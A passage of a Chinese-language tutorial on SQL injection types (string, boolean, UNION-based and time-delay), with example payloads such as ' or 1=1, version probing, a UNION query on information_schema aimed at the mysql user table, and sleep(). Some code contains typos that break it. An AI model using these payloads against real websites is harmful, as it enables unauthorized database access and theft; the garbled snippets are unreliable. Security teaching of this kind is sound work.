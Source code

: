 



## 字符型注入

类似结构http://xxx.com/users.php?name= admin这种形式，其注入点name类型为字符类型，所以叫字符型注入点。这一-类的SQL语句原型大概为selet” from表名where name=admin'值得注看的是这里相比于数字型注入类型的sq语句原型多了引号，可以是单引号或者是双引号。若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破:

```mysql
select * from 表名 where name='name' and 1=1'
-- 构造注入语句时可以输入 1' or 1=1  和 1' and 1=2  进行判断
```





## 布尔型注入

**布尔型注入指的是通过联合一个布尔类型的判断完成注入目的的注入类型**

```mysql
-- 使用布尔类型注入缺点数据库版本 猜对了才会返回正常的查询数据


http://test.com/get?id=1 and substring(version(),1,1) =5
```





## 联合查询注入

**联合查询注入是指注入点可以使用union字段完成注入目的的注入类型，前提是查询有返回数据给前端**

```mysql
-- 使用union联合查询注入获取数据库表结构

									   数据库名			表名		  列名
http://test.com/get?id=1 union select tables_schema,table_name,colum_name,privileges from
记录所有列名信息的表
information_schema.columns where tables_schema = 'mysql' and table_name = 'user'
```





## 延迟注入

**基于时间延迟的注入通过联合一个SQL的sleep函数来完成注入目的的注入类型，当请求后返回时就应当使用时间盲注的方式，通过执行时间来判断注入是否发生**

```mysql
select * from tables where id =1 and sleep(4)
```





## 报错型注入
